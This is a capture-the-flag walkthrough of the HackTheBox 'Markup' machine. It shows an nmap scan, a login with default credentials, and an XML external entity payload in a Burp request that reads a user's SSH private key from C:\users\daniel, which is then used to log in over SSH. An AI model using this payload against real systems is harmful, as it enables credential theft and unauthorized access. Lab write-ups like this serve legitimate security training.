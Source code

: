 ```yaml
---
title: Markup - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - windows
  - xxe
---
```


# Markup -  A HTB machine


```bah
nmap -sC -A 10.129.95.192 -Pn 
```

Open ports: 22, 80 and 443.


In the browser, there is a login panel. Try typical credentials. admin and password work. 

Locate the form to order an item. Capture the request with burp:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 108
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><order><quantity>2</quantity><item>Home Appliances</item><address>1</address></order>
```

Playing around with the request (for instance, nesting some xml) you can check that it's possible to escape the xml tags. This request contains a [xml external entity XEE vulnerability](webexploitation/xml-external-entity-xee.md).


From some responses like the one below (and also from nmap scanning) you know that server runs on a windows:

```
:  DOMDocument::loadXML(): Opening and ending tag mismatch: order line 1 and item in Entity, line: 1 in <b>C:\xampp\htdocs\process.php
```

Also, from source code you know there might be a user called daniel:

![source code](img/markup.png)


As part of a possible exploitation we could try to check if there are ssh private key saved in that user's folder.

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 182
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

The response will be id_rsa private key. [More about XEE attacks](webexploitation/xml-external-entity-xee.mdç).

Now, as port 22 was open:

```bash
ssh -i id_rsa daniel@10.129.95.192
```

user.txt is in Desktop.




